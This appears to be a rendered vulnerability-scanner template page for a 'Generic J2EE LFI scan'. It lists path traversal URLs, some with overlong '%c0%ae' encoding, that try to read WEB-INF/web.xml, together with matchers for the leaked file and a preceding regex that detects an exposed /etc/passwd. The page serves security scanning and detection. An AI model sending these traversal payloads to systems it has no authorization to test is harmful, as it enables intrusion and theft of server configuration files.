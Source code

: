 **Type - regex**

- regex
  1. root:.\*:0:0:
- part - body

---

# Generic J2EE LFI scan

## Description

- Looks for J2EE specific LFI vulnerabilities, tries to leak the web.xml file.
- severity - high
- tags - lfi,generic,j2ee

## Requests

- Method - GET

### URL

- {{BaseURL}}/../../../../WEB-INF/web.xml
- {{BaseURL}}/../../../WEB-INF/web.xml
- {{BaseURL}}/../../WEB-INF/web.xml
- {{BaseURL}}/%c0%ae/%c0%ae/WEB-INF/web.xml
- {{BaseURL}}/%c0%ae/%c0%ae/%c0%ae/WEB-INF/web.xml
- {{BaseURL}}/%c0%ae/%c0%ae/%c0%ae/%c0%ae/WEB-INF/web.xml
- {{BaseURL}}/../../../WEB-INF/web.xml;x=
- {{BaseURL}}/../../WEB-INF/web.xml;x=
- {{BaseURL}}/../WEB-INF/web.xml;x=
- {{BaseURL}}/WEB-INF/web.xml
- {{BaseURL}}/.//WEB-INF/web.xml
- {{BaseURL}}/../WEB-INF/web.xml
- {{BaseURL}}/%c0%ae/WEB-INF/web.xml

### Matchers

**Type - word**

- part - body
- words
  1. \<servlet-name>
  2. \</web-app>
- condition - and

**Type - status**

- status
  1. 200

---

